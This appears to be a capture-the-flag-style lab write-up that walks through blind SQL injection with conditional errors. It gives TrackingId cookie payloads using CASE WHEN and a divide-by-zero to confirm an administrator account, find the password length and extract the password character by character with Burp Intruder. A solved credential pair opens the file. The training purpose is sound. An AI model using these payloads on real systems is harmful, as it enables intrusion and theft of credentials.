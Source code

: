 ```py

administrator
ryhgsiscfjwg1f0td47g
```



---


# Lab: Blind SQL injection with conditional errors

```py
# Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie.

TrackingId='
# Modify the TrackingId cookie, Verify that an error message is received.

TrackingId=''
# Now change it to two quotation marks. Verify that the the error disappears

# This demonstrates that an error in the SQL query (in this case, the unclosed quotation mark) has a detectable effect on the response.


TrackingId='+UNION+SELECT+CASE+WHEN+(1=1)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+dual--
# Verify that an error message is received.

TrackingId='+UNION+SELECT+CASE+WHEN+(1=2)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+dual--
# Verify that the the error disappears.
# This demonstrates that you can trigger an error conditionally on the truth of a specific condition.
# The CASE statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false.
# The former expression contains a divide-by-zero, which causes an error.
# In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true.


TrackingId='+UNION+SELECT+CASE+WHEN+ (username='administrator') +THEN+to_char(1/0)+ELSE+NULL+END+FROM+users--
# Verify that the condition is true, confirming that there is a user called administrator.


# to determine how many characters are in the password of the administrator user.
TrackingId='+UNION+SELECT+CASE+WHEN+ (username='administrator'+AND+length(password)>1) +THEN+to_char(1/0)+ELSE+NULL+END+FROM+users--.
# This condition should be true, confirming that the password is greater than 1 character in length.

# Send a series of follow-up values to test different password lengths.
# manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is in fact 20 characters long.


# to test the character at each position to determine its value.
# Send the request you are working on to Burp Intruder
# clear the default payload positions by clicking the "Clear §" button.
TrackingId='+UNION+SELECT+CASE+WHEN+ (username='administrator'+AND+substr(password,1,1)='a') +THEN+to_char(1/0)+ELSE+NULL+END+FROM+users--
# This uses the substr() function to extract a single character from the password, and test it against a specific value.
```